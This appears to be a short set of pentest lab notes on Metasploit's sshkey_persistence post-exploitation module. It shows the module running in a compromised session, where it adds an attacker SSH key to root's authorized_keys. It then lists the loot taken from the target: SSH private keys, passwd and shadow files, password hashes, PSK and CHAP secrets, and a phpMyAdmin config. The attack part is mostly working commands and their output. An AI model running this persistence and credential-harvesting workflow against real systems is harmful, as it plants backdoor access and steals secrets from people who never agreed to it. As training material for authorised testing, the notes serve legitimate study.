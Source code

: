 https://www.rapid7.com/db/modules/post/linux/manage/sshkey_persistence/

> This module will add an SSH key to a specified user (or all), to allow remote login via SSH at any time. 

```
msf5 post(linux/manage/sshkey_persistence) > set SESSION 1
SESSION => 1
msf5 post(linux/manage/sshkey_persistence) > run

[!] SESSION may not be compatible with this module.
[*] Checking SSH Permissions
[*] Authorized Keys File: .ssh/authorized_keys
[*] Finding .ssh directories
[+] Storing new private key as /root/.msf4/loot/20210502003739_default_192.209.15.3_id_rsa_166075.txt
[*] Adding key to /root/.ssh/authorized_keys
[+] Key Added
[*] Post module execution completed
```

## Loot storage

```
root@attackdefense:~/.msf4/loot# ls
20210502002158_default_192.209.15.3_ssh.authorized_k_465869.txt  20210502002455_default_192.209.15.3_linux.passwd_819746.txt     20210502003141_default_192.209.15.3_xchat.config_288312.txt
20210502002158_default_192.209.15.3_ssh.id_rsa.pub_629088.txt    20210502002455_default_192.209.15.3_linux.shadow_429827.txt     20210502003438_default_192.209.15.3_phpmyadmin_conf_086956.txt
20210502002158_default_192.209.15.3_ssh.id_rsa_721179.txt        20210502002652_default_192.209.15.3_ecryptfs.sigcac_615414.txt  20210502003602_default_192.209.15.3_linux.chapsecret_225219.txt
20210502002158_default_192.209.15.3_ssh.known_hosts_443334.txt   20210502002819_default_192.209.15.3_linux.psk.creds_240583.txt  20210502003739_default_192.209.15.3_id_rsa_166075.txt
20210502002455_default_192.209.15.3_linux.hashes_925855.txt      20210502003141_default_192.209.15.3_xchat.config_276437.txt
```
